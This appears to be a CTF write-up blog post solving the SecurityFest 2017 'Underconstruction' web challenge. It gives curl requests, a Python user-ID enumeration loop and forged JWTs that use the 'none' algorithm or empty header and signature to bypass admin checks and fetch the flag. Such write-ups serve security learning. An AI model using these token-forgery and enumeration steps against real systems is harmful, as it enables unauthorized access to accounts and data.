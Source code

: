 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
title: SecurityFest2017 - Underconstruction
tags: JWT
mathjax: false
imagefeature: 
description: SecurityFest2017 - Underconstruction
category: Web Exploitation
chart: null
---
```



## Problems

```
Under Construction! Please protect your head, wear a hardhat.
Solves: 12
Service: http://web.ctf.rocks:8080
Author: Kits / weckzen
```


## Writeup

at this web challenges we can read in the source code at root path

```html
<!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->
```

using this curl to login 
```
➔ curl -H "Content-Type: application/json" \
-X POST -d '{"username":"user","password":"password"}' \
http://web.ctf.rocks:8080/login
```

and we get this response 
```
< HTTP/1.1 200 
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY
< Content-Length: 51
< Date: Fri, 02 Jun 2017 03:23:30 GMT
< 
* Connection #0 to host web.ctf.rocks left intact
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

information we get is UserID:52 and authorizedURLs: ['/login','/apis'] , and we got authorization header 
with JWT (Json Web Token).

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY`
jwt have 3 part `<header>.<payload>.<signature>` 

```
Header : 
➔ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}% 

Payload : 
➔ echo -n eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0 | base64 -d
{"user":"user","exp":1497237810}

Signature :
*Signature is constructed using this algorithm 

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
secret
)

*Concatenating base64 header and payload with "." and encrypt with some custom secret string

```

let's trying what /apis endoint does with this curl.

```
➔ curl -H "Content-Type: application/json" \
-X GET \         
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' http://web.ctf.rocks:8080/apis
{"timestamp":1496374182620,"status":400,"error":"Bad Request","exception":"org.springframework.web.bind.MissingServletRequestParameterException","message":"Required Integer parameter 'userId' is not present","path":"/apis"}% 
```

missing parameter `userId`

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/apis?userId=52" 
{"urls":["/login","/apis"],"id":52,"user":"user"}
```

using some python to enumurate other users urls.

```python
import requests
import json

url = "http://web.ctf.rocks:8080/apis"



payload = "{\"username\": \"user\", \"password\":\"password\"}"
headers = {
    'content-type': "application/json",
    'cookie': "JSESSIONID=4B17338B92DFAF214BAF7D40F29FC561",
    'authorization': "Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5ODI2MH0.FwX2y37d7C1eQdiLgrsyCoWc-PbMb_O4KfKT3KtpQZw",
    'cache-control': "no-cache",
    'postman-token': "c8908859-4423-0bf5-1049-db1bc7ffcc27"
    }


for x in range(100):
    querystring = {"userId":x}
    response = requests.request("GET", url, data=payload, headers=headers, params=querystring)
    result = json.loads(response.text)
    print(result['urls'], x, result['user'])
```

get this result

```
([u'/login', u'/apis', u'/supersecretflagresource'], 0, u'admin')
([u'/login', u'/apis'], 1, u'Patrik')
([u'/login', u'/apis'], 2, u'Joakim')
([u'/login', u'/apis'], 3, u'Joakim')
([u'/login', u'/apis'], 4, u'Joakim')
([u'/login', u'/apis'], 5, u'Joakim')
([u'/login', u'/apis'], 6, u'Joakim')
([u'/login', u'/apis'], 7, u'Joakim')
([u'/login', u'/apis'], 8, u'Joakim')
([u'/login', u'/apis'], 9, u'Joakim')
([u'/login', u'/apis'], 10, u'Joakim')
```

we got some interesting urls `/supersecretflagresource`.
but we can't access it directly because they validating our Authorization header JWT is not Admin

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374542889,"status":403,"error":"Forbidden","message":"Access is denied","path":"/supersecretflagresource"}
```

I am not solving this while the competition but trying to documenting this is a good challenge.
if we change the JWT payload part to `{"user":"admin","exp":1497237810}` this will trigger exception because
the signature validation is error.

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcyMzc4MTB9.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374872312,"status":500,"error":"Internal Server Error","exception":"io.jsonwebtoken.SignatureException","message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.","path":"/supersecretflagresource"}
```

so after reading some writeup there are 2 ways to bypass this restriction :
1. change the header algorithm to none and empty signature the payload `{"user":"admin","exp":1497099449}` `<header>.<payload>.`
2. using empty header and empty signature and change the payload to `{"user":"admin","exp":1497099449}` `.<payload>.`

the first way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

second way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer .eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

i am prefer the second way from here `https://losfuzzys.github.io/writeup/2017/05/31/SCTF2017-underconstruction/`
and the author say will remove the confusing part at v1.0 `https://github.com/jwtk/jjwt/issues/212`

so to get the flag just open `https://kits.se?kokitotsos` and fire up console run the javascript function

```js
function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}
```


*Nb : i am trying >12Hour cracking the password of signature to construct a valid signature but got nothing

Flag : `SCTF{lolKOKITOTSOS}`